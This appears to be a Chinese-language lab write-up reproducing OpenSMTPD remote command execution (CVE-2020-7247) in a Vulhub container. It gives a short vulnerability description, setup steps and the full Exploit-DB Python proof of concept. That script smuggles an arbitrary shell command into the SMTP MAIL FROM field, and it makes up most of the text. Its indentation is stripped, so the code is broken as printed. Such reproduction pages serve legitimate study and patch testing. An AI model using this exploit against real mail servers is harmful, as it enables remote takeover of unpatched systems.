


OpenSMTPD 远程命令执行漏洞 CVE-2020-7247¶
漏洞描述¶
OpenSMTPD 是面向 unix 操作系统 (BSD, MacOS, GNU/Linux) 的一个 smtp 服务程序，遵循 RFC 5321 SMTP 协议，OpenSMTPD 最初是为 OpenBSD 操作系统开发的，是 OpenBSD 项目的一部分，由于其开源的特性，进而分发到了其他 unix 平台。根据 ISC 许可，该软件可免费供所有人使用和重用。
CVE-2020-7247 是 OpenSMTPD 在实现 RFC 5321 的过程中对 发件人/收件人 校验不严而导致的。
2020年01月29日，OpenSMTPD 官方在 github 代码仓库提交了针对 CVE-2020-7247 漏洞的修复，修复后对应版本为OpenSMTPD 6.6.2p1。
参考链接：
- https://www.qualys.com/2020/01/28/cve-2020-7247/lpe-rce-opensmtpd.txt
- https://www.exploit-db.com/exploits/47984
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-7247
- https://www.anquanke.com/post/id/197689
环境搭建¶
Vulhub执行如下命令，启动OpenSMTPD服务：
docker-compose up -d
执行完成后，使用nc <your-ip> 8825 -v 后应看到如下回显：（44dadcc5a6eb为容器编号）：

220 44dadcc5a6eb ESMTP OpenSMTPD
漏洞复现¶
使用Exploit-DB上的POC进行复现：
python3 poc.py your-ip 8825 <command>
执行命令touch /tmp/awesome_poc：

命令执行成功：
漏洞POC¶
# Exploit Title: OpenSMTPD 6.6.1 - Remote Code Execution
# Date: 2020-01-29
# Exploit Author: 1F98D
# Original Author: Qualys Security Advisory
# Vendor Homepage: https://www.opensmtpd.org/
# Software Link: https://github.com/OpenSMTPD/OpenSMTPD/releases/tag/6.6.1p1
# Version: OpenSMTPD < 6.6.2
# Tested on: Debian 9.11 (x64)
# CVE: CVE-2020-7247
# References:
# https://www.openwall.com/lists/oss-security/2020/01/28/3
#
# OpenSMTPD after commit a8e222352f and before version 6.6.2 does not adequately
# escape dangerous characters from user-controlled input. An attacker
# can exploit this to execute arbitrary shell commands on the target.
#
#!/usr/local/bin/python3
from socket import *
import sys
if len(sys.argv) != 4:
print('Usage {} <target ip> <target port> <command>'.format(sys.argv[0]))
print("E.g. {} 127.0.0.1 25 'touch /tmp/x'".format(sys.argv[0]))
sys.exit(1)
ADDR = sys.argv[1]
PORT = int(sys.argv[2])
CMD = sys.argv[3]
s = socket(AF_INET, SOCK_STREAM)
s.connect((ADDR, PORT))
res = s.recv(1024)
if 'OpenSMTPD' not in str(res):
print('[!] No OpenSMTPD detected')
print('[!] Received {}'.format(str(res)))
print('[!] Exiting...')
sys.exit(1)
print('[*] OpenSMTPD detected')
s.send(b'HELO x\r\n')
res = s.recv(1024)
if '250' not in str(res):
print('[!] Error connecting, expected 250')
print('[!] Received: {}'.format(str(res)))
print('[!] Exiting...')
sys.exit(1)
print('[*] Connected, sending payload')
s.send(bytes('MAIL FROM:<;{};>\r\n'.format(CMD), 'utf-8'))
res = s.recv(1024)
if '250' not in str(res):
print('[!] Error sending payload, expected 250')
print('[!] Received: {}'.format(str(res)))
print('[!] Exiting...')
sys.exit(1)
print('[*] Payload sent')
s.send(b'RCPT TO:<root>\r\n')
s.recv(1024)
s.send(b'DATA\r\n')
s.recv(1024)
s.send(b'\r\nxxx\r\n.\r\n')
s.recv(1024)
s.send(b'QUIT\r\n')
s.recv(1024)
print('[*] Done')